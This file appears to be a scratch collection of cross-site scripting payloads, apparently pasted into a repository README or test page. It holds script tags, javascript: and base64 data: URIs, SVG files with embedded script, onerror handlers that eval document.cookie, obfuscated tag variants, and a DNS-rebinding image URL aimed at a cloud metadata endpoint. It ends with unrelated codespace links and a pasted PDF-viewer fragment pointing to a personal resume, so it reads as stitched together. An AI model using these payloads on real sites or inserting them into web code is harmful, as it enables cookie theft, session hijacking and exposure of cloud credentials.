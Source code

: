 <output>
<noscript onerror=prompt(0);><a href="javascript:alert("XSS")>XSS</a>"><script onerror="<noscript onerror="<script>alert("XSS")</script>"><IMG src=<script src="/">alert(" "XSS" ")</script></noscript>"<script>alert("XSS")</script></noscript>
</output>
<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>
<a href="data:text/plain;base64,amF2YXNjcmlwdDphbGVydCgneHNzJyk=">Click data</a>
data:text/plain;base64,amF2YXNjcmlwdDphbGVydCgneHNzJyk=
https://special-garbanzo-7v7r6x5g5v4hpgpq-8080.app.github.dev/super.svg
<img src="https://gistpreview.github.io/?029781441a2d3737294741f2d6a4c821/image8.svg" onerror="eval('alert(document.cookie)')"/>
<IMG SRC="https://special-garbanzo-7v7r6x5g5v4hpgpq-8080.app.github.dev/super.svg">

<s\Cr\ipt\>alert(document\.cookie)<\/s\Cr\ipt\>\;\/>
<--<img/src=%20onerror=confirm``>%20--!>
<select><noembed></select><script x='a@b'a>
y='a@b'//a@b%0a\u0061lert(1)</script x>

xss'''><iframe srcdoc='%26it;script>;prompt`
${document.domain}`%26it;/script>'>
<iframe src=data:text/html,%3Cscript%3Ealert%28%27hi%27%29%3B%3C%2Fscript%3E></iframe>
data:text/html,%3Cscript%3Ealert%28%27hi%27%29%3B%3C%2Fscript%3E


<sVg/onLy=1 onLoaD=confirm(1)//

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("Ghostlulz XSS");
   </script>
</svg>

<svg><animate onbegin=evt.path.pop().alert(1) attributeName=x dur=1s>

<img/src=x onError="`${x}`;alert(`Ex.Mi`);">
<img src="https://7f000001.a9fea9fe.rbndr.us/latest/meta-data/" >



https://shell.cloud.google.com/?walkthrough_tutorial_url=https%3A%2F%2Fraw.githubusercontent.com%2Fgolang%2Ftour%2Fmaster%2Ftutorial%2Fweb-service-gin.md&pli=1&show=ide&environment_deployment=ide


<div class="pdf-container loaded" data-file="https://raw.githubusercontent.com/xgenOsama/cert2/e9a36f0a35aa2f168c0511912b35f987b3b5c1c4/OsamaMohamedEbrahim_Elshahat_Resume+(1).pdf" data-bcmap-dir="//viewscreen.githubusercontent.com/static/pdf" data-pdf-worker-js-path="/static/assets/pdf.worker-eca19923bb6ea985ecd4.js"><canvas class="pdf-page" data-page="0" height="2830" width="2000"></canvas><canvas class="pdf-page" data-page="1" height="2830" width="2000"></canvas><canvas class="pdf-page" data-page="2" height="2830" width="2000"></canvas><canvas class="pdf-page" data-page="3" height="2830" width="2000"></canvas></div>
